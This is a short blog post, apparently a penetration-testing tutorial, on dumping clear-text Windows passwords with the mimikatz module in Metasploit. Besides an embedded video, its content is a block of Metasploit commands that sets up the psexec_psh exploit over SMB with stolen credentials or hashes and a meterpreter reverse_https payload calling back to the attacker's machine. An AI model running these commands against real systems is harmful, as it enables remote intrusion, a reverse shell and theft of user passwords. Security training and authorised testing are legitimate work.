 ```yaml
---
layout: post
title:  "Dumping clear text passwords"
categories: jekyll update
---
```

# Mikatz - Dumping clear text passwords

## This video will show you how to dump clear text passwords using the mimikatz post module within Metasploit.


<video width="720" height="405" autoplay controls  poster="">
	<source src="http://s1.webmshare.com/Vz1aj.webm" type="video/webm">
	Your browser does not support the video tag or the file format of this video. <a href="http://www.webestools.com/">http://www.webestools.com/</a>
</video>

```
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set smbuser <username>
set smbpass <password/hash>
set smbdomain <domain>
set RHOST <remote-ip>
set LHOST <local-machine>
```
